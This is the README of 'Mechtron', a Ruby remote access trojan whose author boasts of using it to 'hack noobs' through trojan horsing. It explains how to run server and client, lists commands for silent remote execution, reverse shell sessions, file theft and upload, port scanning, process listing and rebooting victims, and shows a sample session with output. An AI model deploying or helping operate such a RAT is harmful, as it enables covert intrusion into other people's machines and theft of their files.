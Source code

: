 # Mechtron
Guess what buddy? Are you trying to hack a fuc*ing noob? You've come to the right place. Are you into sniping or trapping? If you said trapping, then I'm your man. Tat's what's trojan horsing is all about. Trapping. Now. Allow me to to introduce you to Mechtron.

My name is Evil Threads. The most recond programming mistake I've made is uploading a zipped folder named hackers.zip with a trojan for every platform I think. I'm the real deal. I just want to to hack and bring it to you.

Mechtron is a RAT that gives the server full remote access to the client machine. You can execute remote commands silently on the client machine. The server also has the ability to upload and download files from the client machine. Besides these commands, there are a few sugar commands. Mechtron can handle multiple clients at one time. Mechtron is used to form a network of computers that allows the server to operate on them. You can only work with one computer at a time.

The client software is distributed using the Mechtron application, but by supplying an argument with the server's IP address.

```
sudo ./mechtron -c 127.0.0.1
```

The server is ran using one argument.
```
./mechtron -s
```

Mechtron runs on port 6666. It can handle multiple clients, but one session at a time. Meaning you can have one reverse shell instance at a time. I plan on publishing a debian package, but for now, you'll have to deal with the source folders.

## Useful Tips
- You can aim a Mechtron client at a Mechtron server that doesn't exist yet.
- A torified shell will interfere with Mechtron.
- You can use a client's ID anywhere you can use an IP address and vice versa.
- A client will have a new ID number assigned to it when it reconnects.
- The ID number is to the left of the IP address.
- if you follow the client script name with '&' it will run it in the background.

## Commands
<table>
    <tr>
        <th>Commands</th>
        <th>Description</th>
    </tr>
    <tr>
        <td>clients</td>
        <td>Get a list of the connected machines</td>
    </tr>
    <tr>
        <td nowrap>session IP</td>
        <td>Use session with an IP address to start a reverse shell session. Enter "exit" to stop</td>
    </tr>
    <tr>
        <td nowrap>get IP FILE FORMAT</td>
        <td>Use get with an IP address followed by a file path and a format to download files. The format options are binary and text.</td>
    </tr>
    <tr>
        <td nowrap>put IP FILE FORMAT</td>
        <td>Use put with an IP address followed by a file path and a format to upload files. The format options are binary and text.</td>
    </tr>
    <tr>
        <td nowrap>scan IP</td>
        <td>Scan all TCP ports on the client machine</td>
    </tr>
    <tr>
        <td nowrap>latency IP</td>
        <td>Get the speed of the connection for a client machine in milliseconds.</td>
    </tr>
    <tr>
        <td nowrap>programs IP</td>
        <td>Get a list of the running programs on a client machine.</td>
    </tr>
    <tr>
        <td nowrap>uptime IP</td>
        <td>Returns how long the client has been connected in minutes.</td>
    </tr>
    <tr>
        <td nowrap>reboot IP</td>
        <td>Reboots the client machine.</td>
    </tr>
    <tr>
        <td nowrap>clear</td>
        <td>Clears the screen.</td>
    </tr>
    <tr>
        <td>help</td>
        <td>shows the HELP menu</td>
    </tr>
    <tr>
        <td>exit</td>
        <td>Closes Mechtron application</td>
    </tr>
</table>

## Instructions
  <table>
    <tr>
      <th>Program Parameters</th>
      <th>Description</th>
    </tr>
    <tr>
      <td>-s</td>
      <td>Server mode</td>
    </tr>
    <tr>
      <td>-c IP</td>
      <td>Client mode. This parameter requires an IP address</td>
    </tr>
  </table>

## Example Usage

### Server
```
chmod +x mechtron.rb
./mechtron -s
starting server on port 6666
version 1
Useful tip: You can use the client ID in place of the IP!
  __  __ ______ _____ _    _ _______ _____   ____  _   _ 
 |  \/  |  ____/ ____| |  | |__   __|  __ \ / __ \| \ | |
 | \  / | |__ | |    | |__| |  | |  | |__) | |  | |  \| |
 | |\/| |  __|| |    |  __  |  | |  |  _  /| |  | | . ` |
 | |  | | |___| |____| |  | |  | |  | | \ \| |__| | |\  |
 |_|  |_|______\_____|_|  |_|  |_|  |_|  \_\\____/|_| \_|
By Evil Threads

[0] 127.0.0.1 chrisbasinger Linux joined
session 0
session started with [0] 127.0.0.1 chrisbasinger Linux
$ whoami
chrisbasinger
$ which ruby
/bin/ruby
$ exit
closing session
get 0 /home/chrisbasinger/script.sh text
download finished
get 0 /home/chrisbasinger/picture.jpg binary
download finished
put 0 /home/chrisbasinger/file.txt text
upload finished
put 0 /home/chrisbasinger/spreadsheet.xlsx binary
upload finished
scan 0
111 open
631 open
2049 open
4444 open
scan finished
latency 0
0.00022492 milliseconds
clients
+------------------------------------------+
|                 CLIENTS                  |
+----+------------+----------------+-------+
| ID | IP ADDRESS | NAME           | OS    |
+----+------------+----------------+-------+
| 0  | 127.0.0.1  | gazelle-laptop | Linux |
+----+------------+----------------+-------+
[1] 192.168.1.219 chris Linux joined
programs 1

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          8 K
System                           4 Services                   0         32 K
Registry                        92 Services                   0     20,628 K
smss.exe                       324 Services                   0        268 K
csrss.exe                      424 Services                   0      2,268 K
wininit.exe                    500 Services                   0        660 K
csrss.exe                      512 Console                    1      2,592 K
winlogon.exe                   596 Console                    1      3,228 K
services.exe                   616 Services                   0      6,212 K

uptime 0
1.7 minutes
exit
exiting the server..

Process finished with exit code 0

```

### Client
```
chmod +x rat.rb
sudo ./mechtron -c 127.0.0.1
```

## License
```
Copyright 2023 Chris Basinger

Licensed under the Apache License, Version 2.0(the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

```
